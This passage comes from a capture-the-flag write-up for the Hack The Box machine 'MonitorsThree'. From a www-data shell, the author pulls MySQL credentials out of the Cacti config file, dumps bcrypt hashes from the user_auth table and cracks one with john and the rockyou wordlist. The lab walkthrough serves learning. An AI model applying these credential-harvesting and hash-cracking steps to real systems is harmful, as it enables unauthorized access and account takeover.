 However it still looks like we'll need to escalate privileges or move laterally to access the user.txt flag:

```
www-data@monitorsthree:/$ cd /home
www-data@monitorsthree:/home$ ls
marcus
www-data@monitorsthree:/home$ cd marcus
bash: cd: marcus: Permission denied
```

Cheching out the cacti config file located at: `/var/www/html/cacti/include/config.php`  is a great place to start, and inside we find some mysql creds:

```
#$rdatabase_type     = 'mysql';
#$rdatabase_default  = 'cacti';
#$rdatabase_hostname = 'localhost';
#$rdatabase_username = 'cactiuser';
#$rdatabase_password = 'cactiuser';
#$rdatabase_port     = '3306';
#$rdatabase_retries  = 5;
#$rdatabase_ssl      = false;
#$rdatabase_ssl_key  = '';
#$rdatabase_ssl_cert = '';
#$rdatabase_ssl_ca   = '';
```

We can use these to login and further enumerate the cacti db. Inside we find a table called `user_auth` which contains some hashes:

![htb_monitors3_db.png](../assets/monitorsthree_assets/htb_monitors3_db.png)

We can use john to crack one of these:

```
┌──(ryan㉿kali)-[~/HTB/MonitorsThree]
└─$ john hashes --wordlist=/usr/share/wordlists/rockyou.txt               
Using default input encoding: UTF-8
Loaded 2 password hashes with 2 different salts (bcrypt [Blowfish 32/64 X2])
Cost 1 (iteration count) is 1024 for all loaded hashes
Press 'q' or Ctrl-C to abort, almost any other key for status
12345678910      (?)`
```
